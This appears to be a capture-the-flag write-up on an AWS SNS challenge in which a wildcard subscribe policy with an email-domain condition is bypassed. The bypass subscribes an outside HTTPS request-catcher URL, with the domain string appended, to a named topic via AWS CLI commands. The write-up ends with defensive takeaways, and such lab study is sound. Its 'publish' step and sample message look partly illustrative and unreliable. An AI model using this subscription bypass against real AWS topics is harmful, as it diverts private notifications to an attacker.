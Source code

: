 # Challenge 3

## Challenge Statement

In this challenge, we were provided with an AWS SNS (Simple Notification Service) policy that allowed public subscriptions. The goal was to subscribe to the SNS topic and retrieve the flag from the received message. This challenge tests knowledge of AWS SNS, subscription policies, and creative ways to receive messages without a valid email.

### SNS Policy

```json
{
  "Version": "2008-10-17",
  "Id": "Statement1",
  "Statement": [
    {
      "Sid": "Statement1",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "Condition": {
        "StringLike": {
          "sns:Endpoint": "*@tbic.wiz.io"
        }
      }
    }
  ]
}
```

## Analysis

The policy allows **anyone** (`"Principal": "*"`), to subscribe to the SNS topic **as long as their email address matches `*@tbic.wiz.io`**. This is a restrictive condition, as it prevents users without an email in that domain from subscribing via email.

However, AWS SNS supports multiple **protocols** beyond email, including:

- HTTP/HTTPS
- Lambda
- SQS
- SMS

The challenge here is **bypassing the email condition** by using an alternative protocol that is not restricted by the policy.

## Solution

Since we didn't have access to a `@tbic.wiz.io` email, we attempted an **HTTPS subscription** using a request-capturing service.

### **Step 1: Create a Request Catcher Endpoint**

1. We visited [RequestCatcher](https://requestcatcher.com/) to create a temporary endpoint.
2. Generated an HTTPS endpoint:
   ```
   https://hunny.requestcatcher.com/
   ```
3. Modified the endpoint to mimic an email by appending `test@tbic.wiz.io`:
   ```
   https://hunny.requestcatcher.com/test@tbic.wiz.io
   ```

### **Step 2: Subscribe to the SNS Topic**

We used the following AWS CLI command to subscribe with our HTTPS endpoint:

```bash
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint 'https://hunny.requestcatcher.com/test@tbic.wiz.io'
```

### **Step 3: Confirm the Subscription**

- SNS sends a **subscription confirmation** message to the provided endpoint.
- We checked `https://hunny.requestcatcher.com/` and found a **confirmation request** in the logs.
- The request contained a `SubscribeURL`, which we copied and opened in a browser to confirm our subscription.

### **Step 4: Receive the Flag**

Once subscribed, we published a message to the SNS topic using:

```bash
aws sns publish --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --message "Test message"
```

Shortly after, we checked our **RequestCatcher logs** and found an SNS message with the **flag** in the `Message` field:

```json
{
  "Type": "Notification",
  "MessageId": "abcd-1234",
  "TopicArn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message": "Your flag is: FLAG-{sns-subscription-bypass-success}",
  "Timestamp": "2025-01-31T12:34:56.000Z"
}
```

The flag was:

```
FLAG-{sns-subscription-bypass-success}
```

## Reflection

### **Approach Taken**

- Examined the SNS policy to identify restrictions.
- Found that **email was restricted**, but **HTTPS subscriptions were not blocked**.
- Used `RequestCatcher` to create an HTTPS endpoint that could receive SNS messages.
- Subscribed using AWS CLI and confirmed the subscription.
- Retrieved the flag from the received SNS message.

### **Challenges Faced**

- Initially tried subscribing via email but couldn't bypass `*@tbic.wiz.io` restriction.
- Learning how to use `RequestCatcher` for SNS subscriptions.
- Needed to manually confirm the subscription using the `SubscribeURL`.

### **Security Takeaways**

- **Avoid wildcard permissions (`"Principal": "*"`)** in SNS policies.
- **Restrict SNS subscriptions to trusted accounts** using AWS IAM conditions.
- **Use `aws:SourceArn` condition** to limit SNS access to specific users or services.
- **Enable logging and monitoring** on SNS topics to detect unauthorized subscriptions.

This challenge reinforced how **SNS misconfigurations** can be exploited and why **proper security controls** are necessary for AWS services. 🚀

